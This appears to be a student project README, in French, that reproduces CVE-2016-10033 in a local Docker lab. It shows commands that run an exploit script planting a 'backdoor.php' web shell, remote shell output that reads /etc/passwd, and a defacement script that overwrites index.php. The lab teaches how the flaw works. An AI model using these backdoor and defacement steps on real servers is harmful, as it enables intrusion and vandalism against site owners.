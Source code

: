 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une simple application web d'un formulaire (index.php)
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033
```

Étape 2: Lancement du script "exploit.sh", ce dernier injecte un malicious code dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuter sur une image docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php", il va nous donner la main d'éxécuter les commandes sur un shell distant.
```
$ bash exploit.sh localhost:8080
```
output:
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

C'est intéressant, mais pour tester quelque chose de plus concrèt, lancant le script "deface.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" à une page noire contant le mot "defaced".
```
$ bash deface.sh localhost:8080
```
output 

![](ssi.png)


